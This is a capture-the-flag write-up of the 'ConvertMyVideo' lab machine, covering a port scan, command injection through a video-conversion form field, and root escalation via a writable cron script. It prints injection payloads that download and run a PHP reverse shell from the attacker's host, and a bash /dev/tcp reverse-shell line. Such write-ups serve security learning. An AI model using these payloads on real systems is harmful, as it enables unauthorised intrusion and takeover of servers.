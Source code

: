 # ConvertMyVideo
> Silver Garcia - 08/05/2024

## Enumeration
Nmap
```
sudo nmap -T4 -A -p- 10.10.65.145
Nmap scan report for 10.10.65.145
Host is up (0.18s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=5/8%OT=22%CT=1%CU=32580%PV=Y%DS=2%DC=T%G=Y%TM=663BC
OS:0C9%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10F%TI=Z%CI=Z%TS=A)SEQ(SP
OS:=108%GCD=1%ISR=10B%TI=Z%TS=A)SEQ(SP=109%GCD=1%ISR=10C%TI=Z%CI=Z%TS=A)SEQ
OS:(SP=109%GCD=1%ISR=10D%TI=Z%TS=A)SEQ(SP=109%GCD=3%ISR=10D%TI=Z%CI=Z%TS=A)
OS:OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508
OS:ST11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)
OS:ECN(R=N)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S
OS:=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T5(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%
OS:A=Z%F=R%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=O%A=Z%F=R%O=%RD=0%Q=)T7(R=N)T7
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK
OS:=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   178.69 ms 10.8.0.1
2   179.30 ms 10.10.65.145
```

## Getting access
Found RCE vulnerability when trying to convert video on `http://10.10.65.245/`

POST request with vulnerability:
```
POST / HTTP/1.1

Host: 10.10.65.145

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 106

Origin: http://10.10.65.145

Connection: close

Referer: http://10.10.65.145/



yt_url=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3Dhttps%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3D3z9Nhet21oo
```

The last line can be used to execute code. Used Burp Suite to get reverse shell.
1. Changed last line to download file:
```
yt_url=;wget${IFS%??}http://10.8.11.24:80/php-reverse-shell.php;
```
2. Set listener and execute file:
```
yt_url=;php${IFS%??}php-reverse-shell.php;
```

## Privilege escalation
Used `pspy` to get processes getting executed. Found that `clean.sh` is being executed as root and www-data has write access to it.

1. pspy output
```
2024/05/09 00:06:01 CMD: UID=0     PID=8989   | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh                                        
2024/05/09 00:06:01 CMD: UID=0     PID=8987   | /usr/sbin/CRON -f 
```

2. clean.sh permissions
```bash
ls -la tmp
total 12
drwxr-xr-x 2 www-data www-data 4096 Apr 12  2020 .
drwxr-xr-x 6 www-data www-data 4096 May  9 00:05 ..
-rw-r--r-- 1 www-data www-data   17 Apr 12  2020 clean.sh
```

3. Changed file and set listener to get revere shell
```bash
echo "bash -i >& /dev/tcp/10.8.11.24/53 0>&1" > tmp/clean.sh
```
